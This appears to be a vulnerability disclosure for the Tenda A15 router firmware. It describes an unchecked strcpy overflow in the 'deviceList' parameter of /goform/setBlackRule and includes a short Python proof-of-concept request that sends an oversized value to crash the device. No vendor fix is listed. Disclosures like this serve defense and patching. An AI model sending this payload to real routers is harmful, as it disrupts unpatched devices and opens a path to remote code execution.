


# Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule



The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.



## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

See video content
[](https://youtu.be/Dr2DSNPQKPk "")


## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
